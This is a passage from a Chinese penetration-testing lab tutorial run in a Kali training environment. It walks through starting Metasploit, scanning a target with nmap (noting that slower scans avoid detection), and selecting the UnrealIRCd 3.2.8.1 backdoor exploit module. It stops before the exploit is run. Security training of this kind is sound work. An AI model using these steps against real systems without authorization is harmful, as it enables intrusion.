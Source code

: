 下面，我们将进行渗透扫描。渗透扫描在渗透攻击中，占据着非常重要的角色。只有通过渗透目标主机，充分掌握目标靶机的信息，才能更好地为后续渗透攻击打下基础。

渗透扫描，我们使用扫描神器 Nmap 对端口进行扫描。Nmap (Network Mapper(网络映射器) 是一款开放源代码的网络探测和安全审核的工具。它的设计目标是快速地扫描大型网络，你也可以用它扫描单个主机。

首先，我们先在终端中，打开 `postgresql` 服务，在 Kali 终端中，输入命令如下：

```
# 打开 postgresql 服务
sudo service postgresql start

```
接着在实验楼的 Kali 终端中，输入命令，打开 MSF 终端：

```
# 打开终端 MSF
sudo msfconsole
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479991291836.png-wm)

使用扫描神器 Nmap 对渗透的目标主机，进行扫描：

```
# 使用 nmap 进行扫描
nmap -sV -T4 target
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994884087.png-wm)

| 参数  | 参数所代表含义                                               |
| ----- | ------------------------------------------------------------ |
| `-sV` | 扫描目标主机端口，并显示详细端口信息                         |
| `-T4` | 设定 nmap 扫描的时间策略，数字为0-6，越大越快。扫描的越慢则越不容易被发现，也不会给目标带来太大的网络流量 |

根据扫描结果，对 `6667` 这个端口服务，进行 `search` 模块搜索（时间会很长，建议直接使用截图中的结果）：

```
# 搜索索要渗透的 ircd ，查找相应的攻击模块
search ircd 
```


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994011608.png-wm)

在 Kali 的 MSF 终端中，使用 `use` 命令，使用相应的模块，接着再使用 `show options` 命令，显示模块参数信息：

```
# use 命令，使用相应模块
use exploit/unix/irc/unreal_ircd_3281_backdoor

# show options 命令，显示相应的配置信息
show options
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479994092422.png-wm)
